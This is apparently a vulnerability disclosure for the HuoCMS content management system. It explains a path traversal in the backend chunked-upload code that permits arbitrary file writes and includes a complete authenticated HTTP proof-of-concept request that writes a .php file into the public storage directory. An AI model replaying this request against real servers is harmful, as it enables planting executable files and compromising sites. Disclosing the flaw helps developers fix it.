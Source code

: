 Source Code Address:  https://gitee.com/digital-flag/huocms

In the sliceUploadAndSave method of AttachmentController.php (located under app -> controller -> backend), the resource_type parameter is validated against a whitelist of allowed file extensions (e.g., txt, png, etc.). Subsequently, the method invokes tmpMove from Upload.php (under app -> service -> upload).

The tmpMove method first creates a file. However, the $filename parameter (controlled by the resource_temp_path input parameter, which is user-controllable) can be exploited to traverse directories (e.g., using ../) to create folders. The method then performs a move operation, placing the file into the created directory. The final filename is generated by appending an underscore and the $pos suffix, where $pos is controlled via the chunk_index parameter passed during the call (refer to the actual parameter passing for details).

This creates a vulnerability where an attacker could manipulate resource_temp_path and chunk_index to write files to arbitrary locations with controlled filenames.

Details:
app >controller >backend > AttachmentController.php：sliceUploadAndSave
![image](https://github.com/user-attachments/assets/24c5022b-5dbf-410b-96fd-ccbe93af5dbb)

app >service >upload > Upload.php：tmpMove
![image](https://github.com/user-attachments/assets/d0ba84b2-a5db-498f-95f7-e14a4c90c7cd)
![image](https://github.com/user-attachments/assets/e72806d6-1a06-467b-b040-172109bcb710)



This vulnerability is a backend issue that requires logging into the backend with a token to invoke. Please set up and log in by yourself.

POC：
```
POST /attachment/sliceUploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: token
Content-Type: multipart/form-data; boundary=----geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Length: 990
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_chunk"; filename="blob"
Content-Type: application/octet-stream

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_total"

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_index"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_basename"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_path"

../../../public/storage/image/20250415/
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_type"

txt
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_name"

11.png
------geckoformboundary13d3934e0299a09e8748d146bfb9d483--
```

![image](https://github.com/user-attachments/assets/b670c180-df77-4e0d-9e13-7e02c7e8308e)


Access URL:  
http://127.0.0.1/storage/image/20250415/%5f.php
![image](https://github.com/user-attachments/assets/7acae885-a38c-40ea-9413-e1fe26272ce2)





